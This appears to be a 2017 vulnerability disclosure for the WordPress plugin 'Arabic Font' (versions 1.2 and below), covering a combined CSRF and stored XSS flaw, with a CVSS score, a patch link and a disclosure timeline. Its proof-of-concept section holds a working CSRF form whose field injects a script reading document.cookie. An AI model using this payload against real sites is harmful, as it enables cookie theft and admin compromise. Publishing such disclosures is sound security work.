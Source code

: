 ```yaml
---
layout: single
title: Arabic Font <= 1.2 CSRF Stored XSS
date: 2017-07-20
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - arabic-font
  - stored xss
  - csrf
excerpt: Due to a lack of CSRF mitigation and entity encoding in the output generated by `arabic-font.php` and `/inc/panel.php`, it is possible to store and execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/arabic-font/](https://wordpress.org/plugins/arabic-font/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the output generated by `arabic-font.php` and `/inc/panel.php`, it is possible to store and execute scripts in the context of an admin user.

## CVSS Score
5.2

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:W/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:W/RC:C))

## Versions Affected
1.2 and below

## Solution
There is no official update to resolve this, but an unofficial patch has been included in this disclosure.

## Unofficial Patch
The patched plugin can be found here: [https://drive.google.com/file/d/1OWUiPZIQPKIc00hMocr6EukOPoHMWsHZ/view?usp=sharing](https://drive.google.com/file/d/1OWUiPZIQPKIc00hMocr6EukOPoHMWsHZ/view?usp=sharing)

## Proof of Concept
```xml
<form method="post" action="http://[target]/wp-admin/admin.php?page=arabic-font%2Finc%2Finit.php">
  <input type="hidden" name="save1" value="Save changes">
  <input type="hidden" name="AF_fontfamily" value="JF Flat Jozoor">
  <input type="hidden" name="AF_fontsize" value="18">
  <input type="hidden" name="AF_lineheight" value="45">
  <input type="hidden" name="AF_textalign" value="Center">
  <input type="hidden" name="AF_defaultcssclass" value=".arab&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;&lt;input+type=&quot;hidden&quot;+value=&quot;">
  <input type="hidden" name="AF_customcss" value="">
  <input type="hidden" name="action" value="save">
  <input type="submit" value="Drink all the booze, hack all the things.">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/stored/arabic\_font\_csrf\_stored\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/stored/arabic_font_csrf_stored_xss_shell_upload.rb)

## WPVDB-ID
[8868](https://wpvulndb.com/vulnerabilities/8868)

## Disclosure Timeline
* **2017-07-18**: Initial discovery
* **2017-07-18**: Contacted vendor with proof of concept and details of the vulnerabilities
* **2017-07-20**: Contacted WordPress to report vulnerability
* **2017-07-20**: Plugin removed from WordPress repository
* **2017-07-20**: Developed an unofficial patch in lieu of the vendor producing one
* **2017-07-20**: Released public disclosure
